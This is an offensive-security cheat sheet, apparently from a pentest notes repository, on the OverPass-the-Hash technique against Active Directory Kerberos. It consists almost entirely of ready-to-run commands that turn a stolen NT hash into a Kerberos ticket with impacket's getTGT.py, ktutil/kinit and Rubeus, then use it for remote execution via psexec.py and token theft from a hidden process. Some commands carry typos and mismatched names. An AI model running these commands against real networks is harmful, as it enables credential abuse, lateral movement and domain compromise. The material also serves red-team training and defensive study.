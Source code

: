# Hash - OverPass-the-Hash

> In this technique, instead of passing the hash directly, we use the NT hash of an account to request a valid Kerberost ticket (TGT).


### Using impacket

```bash
root@kali:~$ python ./getTGT.py -hashes ":1a59bd44fe5bec39c44c8cd3524dee" lab.ropnop.com
root@kali:~$ export KRB5CCNAME="/root/impacket-examples/velociraptor.ccache"
root@kali:~$ python3 psexec.py "jurassic.park/velociraptor@labwws02.jurassic.park" -k -no-pass

root@kali:~$ ktutil -k ~/mykeys add -p tgwynn@LAB.ROPNOP.COM -e arcfour-hma-md5 -w 1a59bd44fe5bec39c44c8cd3524dee --hex -V 5
root@kali:~$ kinit -t ~/mykers tgwynn@LAB.ROPNOP.COM
root@kali:~$ klist
```


### Using Rubeus

```powershell
# Request a TGT as the target user and pass it into the current session
# NOTE: Make sure to clear tickets in the current session (with 'klist purge') to ensure you don't have multiple active TGTs
.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /ptt

# Pass the ticket to a sacrificial hidden process, allowing you to e.g. steal the token from this process (requires elevation)
.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /createnetonly:C:\Windows\System32\cmd.exe
```
